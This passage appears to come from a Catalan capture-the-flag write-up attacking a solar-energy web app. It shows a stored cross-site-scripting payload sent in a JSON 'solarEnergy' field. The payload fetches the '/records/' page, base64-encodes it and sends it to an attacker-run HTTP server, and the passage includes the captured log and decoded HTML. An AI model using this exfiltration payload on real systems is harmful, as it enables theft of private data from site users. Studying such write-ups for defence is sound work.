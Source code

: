 ```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

i enviem el següent JSON al topic `data`:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => { location.href='http://192.168.1.116/?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/')).arrayBuffer())));})(); \" />",
  "consumedEnergy": 15
}
```

Obtenim al nostre servei HTTP la següent petició:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 01:32:57] "GET /?data=PCFET0NUWVBFIGh0bWw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+TGlzdCBvZiBTb2xhciBFbmVyZ3kgRGF0YTwvdGl0bGU+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9Ii9zdHlsZS5jc3MiPgogICAgPGxpbmsgcmVsPSJ ... RG93bmxvYWQgUERGPC9hPgogICAgICAgICAgICAgICAgICAgIDwvdGQ+CiAgICAgICAgICAgICAgICA8L3RyPgogICAgICAgICAgICAgICAgICAgIDwvdGFibGU+CiAgICAgICAgPGEgaHJlZj0iLi4vZGFzaGJvYXJkLnBocCIgY2xhc3M9ImxvZ291dC1saW5rIj4mbHQ7IEJhY2s8L2E+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPg== HTTP/1.1" 200 -
```

Decodifiquem el base64 i trobem el codi següent de la pàgina `/records/`:

```html
<!DOCTYPE html>
<html>

<head>
    <title>List of Solar Energy Data</title>
    <link rel="stylesheet" href="/style.css">
    <link rel="stylesheet" href="/style3.css">
</head>

<body>
    <div style="min-width:400px;background:white;padding:15px;border-radius: 8px;box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);">
        <div style="text-align:center;"><object class="solar-icon" data="../sun.svg" type="image/svg+xml" style="width:75px;"></object></div>
        <h1>List of Solar Energy Data</h1>
        <table>
            <tr>
                <th>Record</th>
                <th>Actions</th>
            </tr>
                            <tr>
                    <td>2024-09-02T23:04:27.035Z</td>
                    <td>
                        <a href="?download=true&file=2024-09-02T23%3A04%3A27.035Z.json" class="download-btn">Download PDF</a>
                    </td>
                </tr>
                            <tr>
                    <td>2024-09-02T23:09:07.758Z</td>
                    <td>
                        <a href="?download=true&file=2024-09-02T23%3A09%3A07.758Z.json" class="download-btn">Download PDF</a>
                    </td>
                </tr>
                ...

```